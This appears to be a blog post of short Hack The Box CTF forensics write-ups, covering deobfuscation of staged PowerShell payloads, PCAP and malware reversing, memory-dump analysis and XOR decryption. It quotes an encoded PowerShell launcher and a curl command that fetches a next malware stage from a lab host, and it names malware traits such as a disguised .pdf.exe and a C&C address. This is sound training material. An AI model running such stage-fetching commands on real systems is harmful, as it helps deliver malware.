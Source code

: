 ```yaml
---
title: "HTB - Tales From Eldoria - Forensics"
seoTitle: "Hack The Box - Cyber Apocalypse CTF - Tales From Eldoria - Forensics"
datePublished: Wed Mar 26 2025 13:00:25 GMT+0000 (Coordinated Universal Time)
cuid: cm8pxn12n000h09i3e77rd630
slug: htb-ca-2025
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1742981905728/f18081ab-59de-4c08-b304-b772641e6022.png
tags: hacking, forensics, hackthebox, ethicalhacking, blueteam

---
```


%%[support-cta] 

Just quick recap of the Forensics tasks - **more details coming** in following days, have **a lot** to do outside the area of offensive security so, forgive me for this format this time. Please follow-up on Discord and other socials for updates.

Challenges described below are from the Hack The Box Cyber Apocalypse 2025 CTF - [Tales From Eldoria](https://www.hackthebox.com/events/cyber-apocalypse-2025).  
*Cover background image and HTB logo belongs to the Hack The Box (I’m not an author of those images).*

# Thorin’s Amulet

PowerShell payload deobfuscation. Decode command in script

```powershell
powershell.exe -NoProfile -NonInteractive -EncodedCommand /Base64 command/
```

Then

```powershell
curl -H "X-ST4G3R-KEY: 5337d322906ff18afedc1edc191d325d" http://korp.htb/a541a
```

to obtain the next stage. Last stage contains encoded flag (just run it in Linux `pwsh`).

# A new Hire

Straightforward multistage payload, at the end there is a base64 encoded flag.

Read email, navigate to `storage.microsoftcloudservices.com:[PORT]/index.php` where another URL `http://IP:PORT/3fe1690d955e8fd2a0b282501570e1f4/resumes/` contains malicious file hiding as a PDF file

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1742969315073/8837ffae-5661-49e8-95c7-bc4ca8764db4.png align="center")

That contains one more base64 PowerShell encrypted command, where again, base64 encoded flag is located.

# Silent Trap

In the PCAP file we can find contents of mails, packet 72 contains mail from threat actor with attachment `Eldoria_Balance_Issue_Report.pdf.exe`. Bytes can be extracted from packet 614. We can decompile the program and discover the cypher is RC4 where same function works for encryption & decryption and it exfitrates data through IMAP protocole. Combing through the PCAP file we can find whole communication between host and C&C at `192.168.91.173`. Now that we have the decryptor/encrypt from reverse engineered binary we can decode all transfered data and answer other questions.

# Stealth Invasion

Delivered `memdump.elf` Windows memory dump can be analyzed with `volatility3`. The issue in my side was outdated installation, after updating to latest there were no issues with volatility modules.

# Cave Expedition

All Windows logs were pruned after operation, only traces are in the `Microsoft-Windows-Sysmon_Operational.evtx` from which we can decode all PowerShell payloads to dicover what happened. Slowly we deobfuscate stage by stage malicious payloads finally to obtains the ecryption method - which once again happen to be XORing (which is reversable regadless of how many XOR factors were used - here 2 times). Then `map.pdf.secured` can be decrypted.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1742970711240/9ca0841e-f5c9-47c0-992d-eb7157190c26.png align="center")

# ToolPie

%[https://blog.cyberethical.me/htb-ctf-2025-forensics-toolpie] 

%%[follow-cta] 

# Tales for the Brave (soon)

*(Soon.. too good to not have own, dedicated article* 😉\*)\*

%%[join-cta]